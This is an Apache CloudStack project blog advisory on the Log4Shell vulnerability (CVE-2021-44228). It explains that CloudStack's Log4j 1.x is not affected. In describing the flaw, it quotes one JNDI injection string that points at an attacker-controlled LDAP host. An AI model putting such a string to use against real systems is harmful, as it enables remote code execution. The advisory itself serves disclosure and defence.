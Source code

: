 ```yaml
---
layout: post
title: CloudStack Advisory on Apache Log4j Zero Day (CVE-2021-44228)
tags: [announcement]
authors: [rohit]
slug: log4jshell
---
```

On 9th December 2021, a new zero-day vulnerability for Apache Log4j was reported. It is by now tracked under CVE-2021-44228:
<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228</a>.

CVE-2021-44228 vulnerability is classified under the highest severity mark and allows an attacker to execute arbitrary code by injecting a sub-string in the form "${jndi:ldap://some.attacker-controlled.site/}" into a logged message. Apache Log4j 2.x is reported to be affected as it performs a lookup (string substitution) using the JNDI protocol, whenever the "${jndi:...}" string is found within a message parameter.

<!-- truncate -->

The Apache <a href="https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126">Log4j developers</a> and the <a href="http://slf4j.org/log4shell.html">SLF4J project advisory</a> confirm that Apache Log4j 1.x does not offer a look-up mechanism and does not suffer remote code execution (RCE) vulnerability from CVE-2021-44228.

All Apache CloudStack releases since v4.6 use Apache Log4j version 1.2.17 and therefore are not affected by this RCE vulnerability. Most users who haven't changed the default log4j xml config don't need to do anything, advanced users can check and fix their log4j xml configuration if they're using any custom JMS appenders.

The Apache CloudStack project will consider migrating to a different version of Apache Log4j in future releases.
